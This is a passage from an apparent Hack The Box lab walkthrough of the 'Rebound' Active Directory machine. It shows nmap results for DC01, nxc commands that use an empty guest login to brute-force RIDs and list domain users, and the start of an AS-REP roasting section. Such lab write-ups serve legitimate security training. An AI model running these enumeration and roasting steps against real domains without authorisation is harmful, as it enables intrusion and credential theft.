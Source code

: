 ```bash
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: rebound.htb0., Site: Default-First-Site-Name)
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: rebound.htb0., Site: Default-First-Site-Name)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49679/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC
49696/tcp open  msrpc         Microsoft Windows RPC
49698/tcp open  msrpc         Microsoft Windows RPC
49715/tcp open  msrpc         Microsoft Windows RPC
56425/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Updating our `/etc/hosts` entry for local DNS resolution over the VPN:
```bash
┌──(kali㉿kali)-[~/HTB/Rebound]
└─$ nxc smb DC01.rebound.htb -u 'guest' -p '' --generate-hosts-file "$(pwd)/hosts"
```
```bash
┌──(kali㉿kali)-[~/HTB/Rebound]
└─$ sudo cat hosts >> /etc/hosts
```

#### Enumerate Users via RID Brute-forcing
We use nxc to brute-force user RIDs and extract valid domain accounts:
```bash
┌──(kali㉿kali)-[~/HTB/Rebound]
└─$ nxc smb DC01.rebound.htb -u 'guest' -p '' --rid-brute 10000
```
> By default, typical RID Brute-forcing go up to RID 4000. For larger domains, it may be necessary to expand max number.

And we got 13 valid account on the domain.
```bash
┌──(kali㉿kali)-[~/HTB/Rebound]
└─$ wc -l valid-users.txt 
13 valid-users.txt
```

### Roasting Targets
#### AS-REP Roasting
Without creds we can look for accounts that have the `DONT_REQUIRE_PREAUTH` flag set, allowing offline password cracking.
- Using the **Impacket**:
